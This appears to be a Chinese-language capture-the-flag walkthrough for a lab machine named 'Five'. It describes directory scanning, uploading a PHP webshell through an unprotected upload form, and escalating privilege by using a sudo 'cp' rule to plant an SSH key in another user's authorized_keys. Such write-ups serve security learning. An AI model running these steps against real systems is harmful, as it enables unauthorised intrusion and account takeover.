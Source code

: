 # Five

### 文件上传

`fscan`扫描发现开放`80`端口,直接访问返回`403`，使用`dirsearch`扫描

```bash
$ dirsearch -u http://192.168.1.12/

Target: http://192.168.1.12/

[18:39:40] Starting:
[18:40:23] 301 -  185B  - /admin  ->  http://192.168.1.12/admin/
[18:40:25] 200 -    4KB - /admin/
[18:40:27] 200 -    4KB - /admin/index.html
[18:42:32] 200 -   17B  - /robots.txt
[18:42:55] 200 -  346B  - /upload.html
[18:42:55] 200 -   48B  - /upload.php
[18:42:56] 301 -  185B  - /uploads  ->  http://192.168.1.12/uploads/
```

发现`upload.html`可上传文件，`/admin`可登录，但是`admin`登录一直没爆破进去，尝试`upload.html`，发现可以上传文件，上传一个`1.php`的木马，显示上传成功，但是在`uploads`下没找到文件，文件名大小写也没有绕过

![](./img/five-1.png)

修改`uploads`为`./`尝试上传后发现文件能正常解析

![](./img/five-2.png)

![](./img/five-3.png)

![](./img/five-4.png)

### 提权

```bash
find / -perm -4000 -type f 2>/dev/null
```

![](./img/five-5.png)

发现`man`,但是提权失败了，`sudo -l`看一下

![](./img/five-6.png)

发现可以使用`cp`复制公钥到`.ssh/authorized_keys`即可`ssh`登录，先生成密钥

```bash
ssh-keygen
```

![](./img/five-8.png)

```
cat /etc/ssh/sshd_config
```

发现开放端口为`4444`

![](./img/five-7.png)

```bash
sudo -u melisa /bin/cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```

```
ssh -i id_rsa -p 4444 melisa@127.0.0.1
```

![](./img/five-9.png)